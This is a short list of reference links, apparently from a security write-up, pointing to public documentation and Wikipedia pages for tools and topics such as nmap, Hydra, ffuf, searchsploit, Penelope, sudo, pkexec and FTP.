- [ffuf - Wiki](https://github.com/ffuf/ffuf/wiki)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [File Transfer Protocol - Wikipedia](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [ftp - Linux manual page](https://linux.die.net/man/1/ftp)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [pcap - Wikipedia](https://en.wikipedia.org/wiki/Pcap)
- [Penelope - GitHub](https://github.com/brightio/penelope)
- [Penelope - Kali Tools](https://www.kali.org/tools/penelope/)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [pkexec - Linux manual page](https://linux.die.net/man/1/pkexec)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tshark - Manual page - Wireshark](https://www.wireshark.org/docs/man-pages/tshark.html)
- [vsftpd - Wikipedia](https://en.wikipedia.org/wiki/Vsftpd)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
